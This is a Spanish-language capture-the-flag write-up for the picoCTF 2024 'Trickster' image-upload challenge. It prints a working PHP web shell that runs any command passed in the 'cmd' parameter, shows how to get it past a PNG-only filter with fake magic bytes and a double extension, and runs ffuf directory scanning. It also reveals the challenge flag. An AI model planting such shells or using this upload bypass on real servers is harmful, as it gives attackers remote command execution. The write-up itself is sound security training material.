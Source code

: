 

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance
## Solucion

google> php web shell
https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985



```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

- le agregamos PNG al inicio
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

## otra fuente para wl webshell

```
locate webshells/php
/usr/share/webshells/php
/usr/share/webshells/php/findsocket
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/findsock.c
/usr/share/webshells/php/findsocket/php-findsock-shell.php

cp /usr/share/webshells/php/simple-backdoor.php webshell.php

mv webshell.php webshell.png.php

http://atlas.picoctf.net:55599/uploads/webshell.png.php?cmd=ls

find / -name *txt

cat /var/www/html/G4ZTCOJYMJSDS.txt

```


- Intentamos subirlo, solo acepta pngs, le agregamos doble extensión
```
mv webshell.php webshell.png.php

```

- Ahora hay que encontrar donde se subio, escaneamos directorios
```
sudo apt install wordlists
sudo apt ffuf

 http://atlas.picoctf.net:54794/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://atlas.picoctf.net:54794/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 321, Words: 53, Lines: 17, Duration: 102ms]
uploads                 [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 102ms]>)
```

```
PNG

/usr/lib/python3.9/LICENSE.txt
/usr/local/lib/php/.channels/.alias/pear.txt
/usr/local/lib/php/.channels/.alias/pecl.txt
/usr/local/lib/php/.channels/.alias/phpdocs.txt
/usr/local/lib/php/doc/Archive_Tar/docs/Archive_Tar.txt
/usr/share/perl/5.32.1/Unicode/Collate/allkeys.txt
/usr/share/perl/5.32.1/Unicode/Collate/keys.txt
/usr/share/perl/5.32.1/unicore/Blocks.txt
/usr/share/perl/5.32.1/unicore/NamedSequences.txt
/usr/share/perl/5.32.1/unicore/SpecialCasing.txt
/var/www/html/G4ZTCOJYMJSDS.txt
/var/www/html/instructions.txt
/var/www/html/robots.txt

```

```
cat /var/www/html/G4ZTCOJYMJSDS.txt
PNG

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9} */


```




[https://medium.com/@niceselol/picoctf-2024-trickster-af90f7476e18](https://medium.com/@niceselol/picoctf-2024-trickster-af90f7476e18)